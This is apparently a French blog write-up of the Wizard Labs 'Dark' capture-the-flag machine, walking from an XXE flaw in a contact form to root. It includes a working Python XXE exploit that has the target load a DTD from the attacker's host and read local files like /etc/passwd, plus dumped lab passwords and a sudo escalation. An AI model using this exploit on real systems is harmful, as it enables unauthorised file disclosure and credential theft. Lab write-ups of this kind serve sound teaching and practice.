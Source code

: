 ```yaml
---
title: Solution du CTF Dark de Wizard-Labs
tags: [CTF, WizardLabs]
---
```


Vader
-----

*Dark* est une machine Linux proposée sur [Wizard Labs](https://labs.wizard-security.net/) avec une difficulté donnée à 4/10.  

La machine fait tourner un serveur web avec un formulaire de contact en index :  

![Wizard-Labs Dark CTF index page XXE](/assets/img/wizard-labs/dark_index.png)

En regardant le code source de la page on voit que les données sont soumises via Ajax au format XML :  

```javascript
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<tel>' + $('#tel').val() + '</tel>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;

        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
}
```

Et qui dit XML... dit potentiellement [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) (surtout sur un CTF évidemment).  

Exploiter des failles de ce type nécessite plus de préparatifs que d'autres failles (inclusion, injection de commandes, etc) alors on se remonte les manches et c'est parti !  

&XXE;
-----

Quand on soumet des données quelconques à ce formulaire on obtient un message d'erreur en retour :  

> Sorry, yolo@nawak.tld is already registered!

On va donc placer nos injections XXE dans le champ correspondant à l'adresse email afin d'exfiltrer les données.  

J'ai repris mon exploit écrit pour le [CTF DevOops de HackTheBox](http://devloop.users.sourceforge.net/index.php?article179/solution-du-ctf-devoops-de-hackthebox) et l'ai adapté pour que le format du XML et sa DTD correspondent aux données attendues.  

```python
import sys

import requests
from requests.exceptions import RequestException
from netifaces import ifaddresses

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = ifaddresses("tun0")[2][0]["addr"]
filename = sys.argv[1]

xml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root SYSTEM "http://{}/valid.dtd">
<root>
<name></name>
<tel></tel>
<email>&xxe;</email>
<password></password>
</root>""".format(my_ip)

dtd = """<?xml version="1.0" encoding="UTF-8" ?>
<!ELEMENT root (name, tel, email, password)>
<!ENTITY xxe SYSTEM "file://{}" >
<!ELEMENT name (#PCDATA)>
<!ELEMENT tel (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ELEMENT password (#PCDATA)>""".format(filename)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://10.1.1.30/process.php",
        data=xml,
        headers={"content-type": "application/xml"}
    )

except RequestException as exception:
    print("Error occurred:", exception)
else:
    print(response.text)
```

On utilisera un serveur web quelconque (*python3 -m http.server* fait parfaitement l'affaire) pour héberger le fichier DTD qui est automatiquement modifié par l'exploit.  

On peut par exemple récupérer le fichier */etc/passwd*.  

```plain
$ python3 exploit.py /etc/passwd
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
dark:x:1000:1000:Dark Lord,,,:/home/dark:/bin/bash
dhcpd:x:106:114::/var/run:/bin/false
lord:x:1001:1001:,,,:/home/lord:/bin/bash
 is already registered
```

On peut voir deux utilisateurs sur le système : *dark* et *lord*.  

J'ai tenté de récupérer les clés privées SSH de ces utilisateurs mais soit le fichier n'est pas présent, soit les permissions ne permettent pas d'y accéder... Il est temps de fouiller un peu plus sur ce serveur web.  

```plain
/img (Status: 301)
/js (Status: 301)
/backup (Status: 301)
/process.php (Status: 200)
```

*Gobuster* rapporte un fichier *backup* qui contient juste le path */home/lord/password\_backup.txt*.  

Grace à notre exploit on peut dumper ce fichier qui contient le mot de passe SSH pour *lord* : *sunnysunshine!5*.  

G0t r00t
--------

On trouve dans le home de l'utilisateur le premier flag ainsi qu'une clé dont on ignore le but :  

```plain
lord@dark:~$ cat user.txt
d38f--- snip ---d422

lord@dark:~$ cat key
jdhauioh38qhdu
```

Toutefois en cherchant les fichiers de l'utilisateur *lord* (avec *find / -type f -user lord -not -path '/proc/\*' 2> /dev/null*) on trouve un binaire à un emplacement incongru :  

```plain
-rwx--x--x 1 lord lord 8664 Oct  6 12:16 /var/tmp/locker
```

Donnons lui ce qu'il demande :  

```plain
lord@dark:~$ /var/tmp/locker
Usage: <key>
lord@dark:~$ /var/tmp/locker jdhauioh38qhdu
Checking License: jdhauioh38qhdu
dark password = supereasypassword101if
```

Grace à ce mot de passe on peux devenir *dark* via *su*. Cet utilisateur fait partie du groupe *sudo*, voyons voir ce que l'on peut faire :  

```plain
dark@dark:~$ sudo -l
[sudo] password for dark:
Matching Defaults entries for dark on dark:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dark may run the following commands on dark:
    (ALL : ALL) ALL
dark@dark:~$ sudo su
root@dark:/home/dark# cat /root/root.txt
57e8--- snip ---632d3
```

Game over
---------

Toujours sympa ces petites failles XXE, pour le reste du très basique.  

Merci à *sahay* pour la box et [@h4d3sw0rm](https://twitter.com/h4d3sw0rm) pour *Wizard Labs*.

*Published November 17 2020 at 13:48*
